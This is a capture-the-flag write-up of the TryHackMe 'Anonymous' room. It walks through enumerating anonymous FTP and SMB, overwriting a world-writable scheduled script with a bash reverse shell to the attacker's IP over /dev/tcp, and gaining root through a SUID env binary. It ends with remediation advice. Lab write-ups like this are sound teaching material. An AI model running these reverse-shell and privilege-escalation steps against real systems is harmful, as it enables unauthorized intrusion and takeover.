





# Anonymous — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.64.144.105 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**Anonymous** is a medium TryHackMe room built around an anonymous FTP service with an unsafe, world-writable directory. Anonymous FTP login exposes `scripts/`, a `drwxrwxrwx` directory holding `clean.sh` — a script that is run on a schedule to prune `/tmp`, evidenced by dozens of identical entries in `removed_files.log` — alongside `to_do.txt`, a note admitting the anonymous login should be disabled. Since `clean.sh` itself is world-writable (`-rwxr-xrwx`) and executes on that same schedule, it is overwritten via FTP with a bash reverse shell payload; waiting for the next run catches a shell as `namelessone`. A SUID `/usr/bin/env` binary then allows a direct escalation to root via `env /bin/bash -p`.

**Attack chain:** Anonymous FTP Login → World-Writable scripts/clean.sh → Reverse Shell via Scheduled Execution → Shell as namelessone → SUID /usr/bin/env → Root

## 1. Reconnaissance

A full TCP port scan found anonymous FTP (vsftpd, flagged writable by `ftp-anon`), SSH, and Samba running as `ANONYMOUS`:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.144.105

PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 62 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.131.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCi47ePYjDctfwgAphABwT1jpPkKajXoLvf3bb/zvpvDvXwWKnm6nZuzL2HA1veSQa90ydSSpg8S+B8SLpkFycv7iSy2/Jmf7qY+8oQxWThH1fwBMIO5g/TTtRRta6IPoKaMCle8hnp5pSP5D4saCpSW3E5rKd8qj3oAj6S8TWgE9cBNJbMRtVu1+sKjUy/7ymikcPGAjRSSaFDroF9fmGDQtd61oU5waKqurhZpre70UfOkZGWt6954rwbXthTeEjf+4J5+gIPDLcKzVO7BxkuJgTqk4lE9ZU/5INBXGpgI5r4mZknbEPJKS47XaOvkqm9QWveoOSQgkqdhIPjnhD
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPjHnAlR7sBuoSM2X5sATLllsFrcUNpTS87qXzhMD99aGGzyOlnWmjHGNmm34cWSzOohxhoK2fv9NWwcIQ5A/ng=
|   256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDHIuFL9AdcmaAIY7u+aJil1covB44FA632BSQ7sUqap
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration — SMB Share & Anonymous FTP

`enum4linux` directly enumerated the local Samba user `namelessone` and a mappable `pics` share:

```
enum4linux 10.64.144.105
...
 =======================================( Users on 10.64.144.105 )=======================================

index: 0x1 RID: 0x3eb acb: 0x00000010 Account: namelessone      Name: namelessone       Desc:

user:[namelessone] rid:[0x3eb]

 =================================( Share Enumeration on 10.64.144.105 )=================================


        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

[+] Attempting to map shares on 10.64.144.105

//10.64.144.105/print$  Mapping: DENIED Listing: N/A Writing: N/A
//10.64.144.105/pics    Mapping: OK Listing: OK Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//10.64.144.105/IPC$    Mapping: N/A Listing: N/A Writing: N/A
```

The `pics` SMB share also maps cleanly and holds two JPEG images of corgis (`corgo2.jpg`, `puppos.jpeg`); both were pulled down and checked, but led nowhere.

Connecting via FTP, the banner alone already leaks a username:

```
ftp 10.64.144.105
...
220 NamelessOne's FTP Server!
Name (10.64.144.105:kaskamilla): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

Logging in anonymously and listing the root directory shows `scripts/` is `drwxrwxrwx` (world-writable); inside it, `clean.sh` is itself `-rwxr-xrwx`, alongside `removed_files.log` and `to_do.txt`. All three are pulled down:

```
ftp> mget *
```

`clean.sh` is a cleanup script that runs on a schedule, confirmed by repeated entries in `removed_files.log`, and `to_do.txt` is a note admitting the anonymous login is a liability:

```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
...
```

```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

## 3. Exploitation — Reverse Shell via Writable clean.sh

Since `clean.sh` is `-rwxr-xrwx` (world-writable) and runs on a schedule, it is overwritten via FTP with a bash reverse shell payload:

```
echo '#!/bin/bash' > clean.sh
echo 'bash -i >& /dev/tcp/192.168.131.193/4444 0>&1' >> clean.sh
cat clean.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.131.193/4444 0>&1
```

```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||58692|)
150 Ok to send data.
226 Transfer complete.
58 bytes sent in 00:00 (0.56 KiB/s)
```

A `netcat` listener catches the shell as `namelessone` once the schedule fires:



The shell is stabilized and the user flag captured:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



## 4. Privilege Escalation — SUID /usr/bin/env

A `find` for SUID binaries turns up `/usr/bin/env`, which is not standard:

```
find / -perm -4000 2>/dev/null 
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

A SUID `env` executes any given command with root privileges preserved, so `env /bin/bash -p` drops a root shell:







## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP login is enabled and `scripts/` is world-writable (`drwxrwxrwx`) | Disable anonymous FTP; restrict directory permissions to the owning service account only |
| `clean.sh` is itself world-writable (`-rwxr-xrwx`) and runs on an unauthenticated schedule | Remove write access for group/other on scheduled scripts; never let an anonymous-writable path be executed by a privileged job |
| SUID bit set on `/usr/bin/env`, allowing any command to run with elevated privileges preserved | Remove the SUID bit from `env`; it should never need it |

